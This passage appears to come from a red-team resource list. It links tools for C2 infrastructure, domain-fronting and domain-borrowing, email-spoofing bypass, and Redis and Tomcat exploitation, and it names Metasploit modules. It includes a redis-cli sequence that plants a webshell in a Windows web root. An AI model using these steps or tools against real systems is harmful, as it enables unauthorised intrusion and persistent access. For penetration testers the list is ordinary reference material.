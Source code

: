 https://github.com/obscuritylabs/RAI

https://github.com/Coalfire-Research/Red-Baron - terraform cloud c2 redirector setup

https://github.com/qsecure-labs/overlord - Red Teaming Infrastructure Automation based on Red-Baron

https://github.com/rmikehodges/hideNsneak - This application assists in managing attack infrastructure for penetration testers by providing an interface to rapidly deploy, manage, and take down various cloud services. These include VMs, domain fronting, Cobalt Strike servers, API gateways, and firewalls.

https://github.com/shr3ddersec/Shr3dKit

https://github.com/t94j0/satellite

https://github.com/Cerbersec/DomainBorrowingC2 - Domain Borrowing is a new method to hide C2 traffic using CDN. It was first presented at Blackhat Asia 2021 by Junyu Zhou and Tianze Ding. 

https://github.com/Dliv3/DomainBorrowing - Domain Borrowing PoC

# Bypass SPF/DKIM/DMARC

https://github.com/chenjj/espoofer

# Redis Exploitation

https://github.com/n0b0dyCN/redis-rogue-server

https://github.com/Ridter/redis-rce

MSF:

* scanner/redis/file_upload

* exploit/linux/redis/redis_replication_cmd_exec

Windows Targets - Webshell upload
```console
redis-cli -h targethost -p targetport
config set dir C:\inetpub\wwwroot\
config set dbfilename shell.aspx
set test "Webshell content"
save
```

# Apache Tomcat Exploitation

https://github.com/mgeeky/tomcatWarDeployer - Apache Tomcat auto WAR deployment & pwning penetration testing tool.

https://github.com/00theway/Ghostcat-CNVD-2020-10487 - AJP Exploit CVE-2020-1938

https://github.com/Ridter/redis-rce

# SSRF Exploitation
